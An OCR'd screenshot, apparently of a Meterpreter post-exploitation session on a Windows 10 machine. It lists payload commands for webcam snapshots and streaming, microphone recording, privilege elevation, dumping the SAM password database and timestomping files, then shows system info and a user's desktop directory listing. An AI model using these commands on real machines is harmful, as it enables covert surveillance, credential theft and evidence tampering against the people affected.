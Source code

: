 
Stdapi: Webcam Commands
=======================

    Command       Description
    -------       -----------
    record_mic    Record audio from the default microphone for X s
                  econds
    webcam_chat   Start a video chat
    webcam_list   List webcams
    webcam_snap   Take a snapshot from the specified webcam
    webcam_strea  Play a video stream from the specified webcam
    m


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target
                  system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of loc
                  al system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes

meterpreter > sysinfo
Computer        : DESKTOP-DDFV492
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > ls
Listing: C:\Users\fahim\OneDrive\Desktop\trzn
=============================================
